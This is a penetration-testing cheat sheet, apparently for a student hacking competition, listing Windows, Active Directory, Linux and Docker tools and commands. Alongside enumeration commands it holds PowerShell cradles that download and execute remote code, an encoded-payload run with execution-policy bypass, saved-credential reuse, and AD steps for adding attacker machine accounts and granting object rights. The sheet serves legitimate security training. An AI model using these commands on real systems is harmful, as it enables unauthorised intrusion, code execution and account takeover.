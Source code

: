 # **CPTC Reference Sheet**

## Windows / Active Directory

### **Tools**

#### [**Bloodhound CE Install**](https://support.bloodhoundenterprise.io/hc/en-us/articles/17468450058267-Install-BloodHound-Community-Edition-with-Docker-Compose)

```bash
curl -L https://github.com/SpecterOps/BloodHound/raw/main/examples/docker-compose/docker-compose.yml | docker compose -f - up
```

#### [**Bloodhound-Python**](https://github.com/dirkjanm/BloodHound.py)

```bash
python3 -m pip install bloodhound
```

#### [**CrackMapExec**](https://github.com/byt3bl33d3r/CrackMapExec)

```bash
python3 -m pip install pipx 
pytohn3 -m pipx install crackmapexec
python3 -m pipx ensurepath
```

#### [**Rubeus**](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)


[**Ghostpack Binaries**](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

#### [**ILSpy (Avalonial)**](https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip)

#### [**JAWS**](https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1)

#### [**Kerbrute**](https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64)

#### [**PowerSploit**](https://github.com/PowerShellMafia/PowerSploit) and [**PowerMad**](https://github.com/Kevin-Robertson/Powermad)

```bash
git clone https://github.com/PowerShellMafia/PowerSploit.git
```

```bash
git clone https://github.com/Kevin-Robertson/Powermad.git
```

#### [**WES-NG**](https://github.com/bitsadmin/wesng)

```bash
python3 -m pip install wesng
wes --update
```

#### [**WinPEAS_bat**](https://github.com/carlospolop/PEASS-ng/releases/download/20231011-b4d494e5/winPEAS.bat) **/** [**WinPEAS_x64**](https://github.com/carlospolop/PEASS-ng/releases/download/20231011-b4d494e5/winPEASx64.exe) **/** [**WinPEAS_x86**](https://github.com/carlospolop/PEASS-ng/releases/download/20231011-b4d494e5/winPEASx86.exe) **/** [**WinPEAS_any**](https://github.com/carlospolop/PEASS-ng/releases/download/20231011-b4d494e5/winPEASany.exe)

### **LDAPsearch**

**Comparison Operations**

```powershell
(&(objectClass=Group)(CN=Exchange*)); (|(objectClass=Group)(CN=Exchange*)); (!(&(objectClass=Group)(CN=Exchange*)))`
```

**Dump (No-Auth)**

```bash
ldapsearch -LLL -H ldap://<domain> -x -s base ""
```

**Full Dump (Authenticated)**

```bash
ldapsearch -LLL -H ldap://<domain> -x -w <passsword> -D '<user>@<domain>' -b 'DC=<domain>,DC=<tld>' "(objectClass=*)"
```

**Get All Groups / Group Members**

```bash
ldapsearch -LLL -H ldap://<domain> -x -w <passsword> -D '<user>@<domain>' -b 'DC=<domain>,DC=<tld>'  "(objectClass=Group)" member memberof
```

### **RPCClient**

```bash
rpcclient -U <user> --password=<password> -c <rpc-command> <host>
```
```
enumdomusers
querydominfo
samlookupnames <domain|builtin> <user>
queryuser <user_RID>
querygroupmem <group_RID>
samlookuprids
```

## **PowerShell**

[**Pentesting w/ PowerShell**](https://jonlabelle.com/snippets/view/markdown/basic-windows-powershell-commands-for-pentesting)

[**SANS PowerShell Cheat Sheet**](https://www.sans.org/blog/sans-pen-test-cheat-sheet-powershell/)

**Download / Execute Files**

```powershell
Invoke-WebRequest -uri <url> -outfile <outputfile> # Just Download
```

```powershell
Invoke-Expression (New-Object Net.WebClient).downloadString("<url>")
```

```powershell
$h=New-Object -ComObject Msxml2.XMLHTTP
$h.open('GET','<url>',$false)
$h.send()
iex $h.responseText
```

```powershell
$wr = [System.NET.WebRequest]::Create("<url>")
$r = $wr.GetResponse() 
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

**Mute Web Warning in PowerShell v3+**

```powershell
$Env:PSModulePath.Split(';') | % { if ( Test-Path (Join-Path $_ PowerSploit) ) {Get-ChildItem $_ -Recurse | Unblock-File} }
```

**Authenticate to Remote SMB Share**

```powershell
net use \\<ip>\<share> /user:<user> <password>
```

**Transfer Files From Share**

```powershell
ROBOCOPY \\<IP>\<SharePath> <Destination> -E /COPY:DAT

COPY \\<IP>\<SharePath> <Destination>
```

**Create PSCredential**

```powershell
$user = whoami
$pass = ConvertTo-SecureString '<password>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($user, $pass)
```

**B64 Encode / Decode**

```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("myCommand"))
```
```powershell
[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('JwBtAHkAUwB0AHIAaQBuAGcAJwA='))
```

**Execute B64 Encoded Payload**

```powershell
kali> echo -n "IEX(New-Object Net.WebClient).downloadString('http://<host:port>/<filename>')" | iconv -t > UTF-16LE | base64 -w0

PS> powershell [-nop] -ep bypass -encodedCommand <Base64>
```

**Run PS as Different User** *(No profile)*

```powershell
runas /user:<domain>\<user> /noprofile powershell.exe
```

**Check for Cached Credentials**

```bat
cmdkey /list
```

**Use Saved Credential**

```powershell
C:\Windows\System32\runas.exe /user:<Domain>\<Username> /savecred <executable>
```

**Enum Local Users**

```powershell
Get-LocalUser | ft Name,Enabled,Description,LastLogon
```

**List Users Directory**

```powershell
Get-ChildItem C:\Users -Force | select Name
```

**Enumerate Object ACL**

```powershell
Get-Acl -Path "<File or Directory>" | fl
```
**Current OS Verison**

```powershell
[System.Environment]::OSVersion.Version
```

**List All Patches**

```powershell
Get-WmiObject -query 'select * from win32_quickfixengineering' | foreach {$_.hotfixid}
```

**List Security Patches**

```powershell
Get-Hotfix -description "Security update"
```

**Check Clipboard**

```powershell   
Get-Clipboard
```

**Check Recycle Bin**

```powershell
$shell = New-Object -com shell.application
$rb = $shell.Namespace(10)
$rb.Items()
```

### ***PowerView***

**Get ACL for Object**

```powershell
Get-ObjectAcl -Identity "<dn>" -ResolveGUIDs | ? {$_.SecurityIdentifier -match "<SID>"}`
```
**Grant Right to Domain Object**

```powershell
Add-DomainObjectAcl -Credential $cred -TargetIdentity "<machine_account>" -Rights <RIGHT>
```

**Get Machine Account SID**

```powershell
$ComputerSid = Get-DomainComputer ohno -Properties objectsid | Select -Expand objectsid
```

### ***PowerMad***

**Add Machine Account**

```powershell
New-MachineAccount -MachineAccount <attacker> -Password $(ConvertTo-SecureString '<password>' -AsPlainText -Force)
```

### **Permissions / Policy**

[**ADACLScan**](https://github.com/canix1/ADACLScanner/releases/download/7.9/ADACLScan.ps1)

**Interesting ACE/DACL**

```
GenericAll - full rights to the object (add users to a group or reset user's password)
GenericWrite - update object's attributes (i.e logon script)
WriteOwner - change object owner to attacker controlled user take over the object
WriteDACL - modify object's ACEs and give attacker full control right over the object
AllExtendedRights - ability to add user to a group or reset password
ForceChangePassword - ability to change user's password
Self (Self-Membership) - ability to add yourself to a group
```

# Linux

### **Enumeration**

#### [**LinPEAS**](https://github.com/carlospolop/PEASS-ng/releases/download/20231011-b4d494e5/linpeas.sh)

#### [**LinEnum**](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)

#### [**LES**](https://github.com/The-Z-Labs/linux-exploit-suggester.git)


## Docker

### **Enumeration**

[**CDK**](https://github.com/cdk-team/CDK/releases/download/v1.5.2/cdk_linux_amd64)

[**AmIContained**](https://github.com/genuinetools/amicontained/releases/download/v0.4.9/amicontained-linux-amd64)

[**DEEPCE**](https://github.com/stealthcopter/deepce/raw/main/deepce.sh)

[**Grype**](https://raw.githubusercontent.com/anchore/grype/main/install.sh)

```bash
curl -sSfL https://raw.githubusercontent.com/anchore/grype/main/install.sh | sh -s -- -b <InstallPath>
```
